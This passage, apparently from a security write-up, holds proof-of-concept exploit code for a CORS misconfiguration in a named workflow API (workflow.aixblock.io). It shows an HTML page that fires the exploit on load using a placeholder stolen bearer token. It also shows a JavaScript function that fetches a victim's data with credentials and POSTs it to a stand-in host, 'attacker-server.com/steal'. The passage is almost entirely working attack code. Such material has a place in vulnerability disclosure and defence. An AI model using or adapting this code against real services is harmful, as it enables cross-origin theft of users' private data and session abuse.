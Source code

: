 ```html
                    'Content-Type': 'application/json',
                    'Authorization': 'Bearer ' + getStolenToken()
                }
            })
            .then(response => response.json())
            .then(data => {
                document.getElementById('results').innerHTML = 
                    '<h2>Stolen Data:</h2><pre>' + JSON.stringify(data, null, 2) + '</pre>';
            })
            .catch(error => {
                document.getElementById('results').innerHTML = 
                    '<h2>Error:</h2><p>' + error.message + '</p>';
            });
        }
        
        function getStolenToken() {
            // In a real attack, this would be stolen via other means
            return 'stolen_session_token_here';
        }
        
        // Execute exploit when page loads
        window.onload = function() {
            setTimeout(exploitCORS, 1000);
        };
    </script>
</body>
</html>
```

### **JavaScript Exploitation Code**
```javascript
// CORS vulnerability exploitation
async function exploitAIxBlockCORS() {
    const maliciousDomain = 'https://evil-attacker.com';
    const targetEndpoint = 'https://workflow.aixblock.io/api/workflows';
    
    try {
        // This request will succeed due to CORS misconfiguration
        const response = await fetch(targetEndpoint, {
            method: 'GET',
            credentials: 'include',
            headers: {
                'Origin': maliciousDomain,
                'Content-Type': 'application/json',
                'X-Requested-With': 'XMLHttpRequest'
            }
        });
        
        if (response.ok) {
            const userData = await response.json();
            console.log('Successfully stolen data:', userData);
            
            // Send stolen data to attacker's server
            await fetch('https://attacker-server.com/steal', {
                method: 'POST',
                body: JSON.stringify(userData),
                headers: {
                    'Content-Type': 'application/json'
                }
            });
        }
    } catch (error) {
        console.error('Exploit failed:', error);
```
